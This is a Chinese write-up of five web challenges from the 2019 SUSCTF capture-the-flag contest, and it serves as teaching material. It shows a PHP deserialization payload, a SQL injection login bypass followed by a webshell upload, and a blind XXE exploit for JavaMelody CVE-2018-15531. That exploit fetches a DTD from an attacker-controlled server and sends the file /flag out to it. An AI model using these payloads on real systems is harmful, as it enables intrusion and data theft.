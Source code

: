 ```yaml
---
title: SUSCTF 2nd Web Write Up
key: 66237fc39ecb12f9a560eac532a07492
tags:
  - Writeup
  - CTF
date: 2019-04-25 21:07:00
---
```

> 文章首发于安恒网络空间安全讲武堂

![](/assets/images/move/1555149964624-1914027a-dcc9-45db-a993-9e0d1cc3f5d4.png)

> “东南大学永信杯”江苏大学生网络安全精英邀请赛 2019/4/13 9:00-17:00

<!--more-->

## Web1 judge 100pt

just do it!

http://211.65.197.117:15000

![](/assets/images/move/1555146966474-e1afa7e4-8818-4261-afb4-654c1a7cff44.png)

Payload:

```python
import re
import time
import requests

url = 'http://211.65.197.117:15000/'
r = requests.session()
for i in range(20):
    text = r.get(url).text
    calc = str(re.findall("\n<div>(.*?)=", text))[2:-2].replace(' ', '')
    res = str(re.findall("=(.*?)</div>", text))[2:-2]
    res = int(res)
    ans = eval(calc)
    if ans == res:
        data = {'answer': "true"}
    elif ans != res:
        data = {'answer': "false"}
    time.sleep(1)
    last = r.post(url, data)
    print(last.text)
    '''SUSCTF{python_1s_th3_be3t_l4ngu4ge}'''
```



## Web2 phpStorm 100pt



好的编辑器开发真的很快！！http://sus.njnet6.edu.cn:11002



![](/assets/images/move/1555147748007-7b79a75d-8d69-4978-8af2-fe6664d0db8d.png)

由`phpStorm`猜测`.idea`文件泄露，下载`workspace.xml`分析文件路径，访问`Thi5_tru3_qu3sti0n.php`（依照引导使用BurpSuite`抓包修改Head头X-Forward-For为127.0.0.1、User-Agent为SUS进行绕过）获取到php代码如下：

```php
<?php
/**
 * Created by PhpStorm.
 * User: y4ngyy
 * Date: 19-3-19
 * Time: 下午2:40
 */
class foo {
    public $filename;
    function printContent() {
        $content = file_get_contents($this->filename);
        echo $content;
    }
}
if ($_SERVER['HTTP_X_FORWARDED_FOR'] != '127.0.0.1') {
    echo 'Only Localhost can see';
    die();
} else if ($_SERVER['HTTP_USER_AGENT'] != 'SUS') {
    echo 'Browser is not SUS<br>';
    echo 'Please use SUS browser!';
    die();
}
show_source(__FILE__);


$a = null;
if (isset($_POST['foo'])) {
    $a = unserialize($_POST['foo']);
    if (!is_object($a)||get_class($a) != 'foo') {
        $a = new foo();
        $a->filename = "text.txt";
    }

} else {
    $a = new foo();
    $a->filename = "text.txt";
}
$a->printContent();
Hello, CTFer!
?>
```

简单的PHP反序列化，Payload:

```php
<?php
class foo {
    public $filename;
    function printContent() {
        $content = file_get_contents($this->filename);
        echo $content;
    }
}

$a = new foo();
$a->filename = "flag.php";
echo serialize($a);

//O:3:"foo":1:{s:8:"filename";s:8:"flag.php";}
//escape()->O%3A3%3A%22foo%22%3A1%3A%7Bs%3A8%3A%22filename%22%3Bs%3A8%3A%22flag.php%22%3B%7D
```

提交`foo`后查看网页源代码，发现如下内容：

```php
//view-source:http://sus.njnet6.edu.cn:11002/Thi5_tru3_qu3sti0n.php
<?php
/**
 * Created by PhpStorm.
 * User: y4ngyy
 * Date: 19-3-19
 * Time: 下午2:38
 */
//SUSCTF{PHPSTORM_1s_pR3tty_useFul};?>
```





## Web3  infoGate 300pt



信息门户？？http://sus.njnet6.edu.cn:11001

![](/assets/images/move/1555147145783-2a358a3d-2f8e-4fe4-a752-b9428c823781.png)

`username=admin' or '1'='1`&`password=1`即可以`admin`的身份登录，进入`edit.php`写入shell~

![](/assets/images/move/1555134022789-e19c0ec6-81da-4e84-bf69-592e845825bc.png)

访问`/Uploads/webshell.php`得到：SUSCTf{infoGate_Pr3tty_easy_T0_GETSHELL}.





## Web4  Melody 300pt



所以这题为什么叫这个名字？http://211.65.197.117:23333

JavaMelody是一个用来对Java应用进行监控的组件。通过该组件，用户可以对内存、CPU、用户session甚至SQL请求等进行监控，并且该组件提供了一个可视化界面给用户使用。

![](/assets/images/move/1555148411996-fca71af7-6437-4f5a-a9d5-1dd6836fdf7f.png)

访问`/monitoring`可以验证是否加载成功插件：

![](/assets/images/move/1555207057361-45fc0e3f-52c6-4f91-ac58-f871f007f839.png)

系 javaMelody XXE(CVE-2018-15531) ，参见复现分析[JavaMelody 组件 XXE 漏洞解析](https://paper.seebug.org/705/). Payload:



```xml
//http://211.65.197.117:23333/
POST / HTTP/1.1
Host: 211.65.197.117:23333
Content-type: text/xml
SOAPAction: aaaaa
Content-Length: 154

<?xml version="1.0" encoding="UTF-8" standalone="no" ?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://your_vps_adress:port/ev.dtd">
%remote;
]>
</root>
```

这里直接响应是没有回显的，为了完成盲打(Blind XXE)读取文件的功能，服务器部署文件`ev.dtd`：

```xml
//ev.dtd
<!ENTITY % payload SYSTEM	"file:///flag">
<!ENTITY % int "<!ENTITY &#37; trick SYSTEM 'http://your_vps_adress:port/%payload;'>">
%int;
%trick;
```

捕获记录：

```bash
211.65.197.117 - - [13/Apr/2019:15:53:02 +0800] "GET /SUSCTF{M3l0dy_CV3_XX3} HTTP/1.1" 404 162 "-" "Java/1.8.0_201"
```



## Web5 重定向之旅 300pt



使用谷歌内核浏览器食用效果更佳。 http://sus.njnet6.edu.cn:65533

![](/assets/images/move/1555148854529-a5f3af9b-3433-42a5-80d0-9b7ecc1b62e7.png)

- Part1 查看源代码获取注释代码

![](/assets/images/move/1555206886011-a8035308-6511-4abd-8c2f-2b4c7a99950c.png)

```php
//url:http://sus.njnet6.edu.cn:65533/index-ein.html
//hint：源代码的秘密
<meta http-equiv="refresh" content="6;url=index-dos.php">
<!--<?php $part1="3oI";?>-->
```

- Part2 在HTTP请求报文头里捕获

![](/assets/images/move/1555206797179-1742ddfc-732b-4d91-a3e8-e4cb3f8a7c96.png)

网页很快重定向跳转,这里我们可以用BurpSuite抓包查看响应包内容。

```php
//http://sus.njnet6.edu.cn:65533/index-dos.php
//hint: HEAD 你摸得到头脑吗？
$part2: rEdirEct
```

- Part3 解AAencode JS加密

![](/assets/images/move/1555206896629-41e6ff33-4142-4d27-8198-fb01425e019e.png)

```php
//http://sus.njnet6.edu.cn:65533/index-trois.aspx
//http://sus.njnet6.edu.cn:65533/index-ne.js
//JS AAencode 解密如下
leave=function ()
{console.log("$part3:4fun");
location.href='flag.php';
location.href='no_flag.html';}
```
- 访问flag.php

```php
//http://sus.njnet6.edu.cn:65533/flag.php
SUSCTF{__}
<?php
error_reporting(0);
echo "SUSCTF{".$part1."_".$part2."_".$part3."}";
echo "<br>";
show_source(__FILE__);
?>
```

拼接flag得到SUSCTF{3oI_rEdirEct_4fun}.


